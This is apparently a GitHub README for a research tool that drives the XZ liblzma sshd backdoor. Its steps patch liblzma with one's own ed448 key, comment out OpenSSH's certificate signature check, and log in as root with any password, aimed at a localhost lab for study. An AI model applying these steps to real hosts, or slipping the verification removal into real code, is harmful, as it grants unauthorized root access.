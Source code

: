 # Jia Tan's SSH Agent

Simple SSH Agent that implements some of the XZ sshd backdoor functionality.

For those who want to more easily explore the backdoor using a typical SSH client.

![demo](assets/demo.png)

## Usage

- Generate your own ed448 private key: `openssl genpkey -algorithm ED448 -outform PEM -out privkey.pem`
- Patch your liblzma.so with the ed448 pubkey: `python3 scripts/patch_liblzma.py privkey.pem liblzma.so liblzma_patched.so`
- Patch your SSH client to skip verification of the certificate:
  - Look for this section in openssh's `sshkey.c` and commment it out:
  ```c
  if ((ret = sshkey_verify(key->cert->signature_key, sig, slen,
             sshbuf_ptr(key->cert->certblob), signed_len, NULL, 0, NULL)) != 0)
  {
  	goto out;
  }
  ```
- `python3 -m virtualenv venv && . venv/bin/activate && pip install -r requirements.txt`
- `python3 agent.py /tmp/agent ./privkey.pem`
- `SSH_AUTH_SOCK=/tmp/agent ./ssh root@localhost`
- log in with any password :)

-- blasty `<peter@haxx.in>`
